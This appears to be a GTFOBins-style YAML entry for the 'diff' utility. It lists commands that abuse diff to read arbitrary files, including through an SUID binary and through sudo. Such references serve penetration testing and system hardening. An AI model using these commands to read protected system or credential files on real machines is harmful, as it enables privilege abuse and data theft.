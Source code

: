 ```yaml
---
name: diff
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        diff --line-format=%L /dev/null $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./diff --line-format=%L /dev/null $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo diff --line-format=%L /dev/null $LFILE
---
```

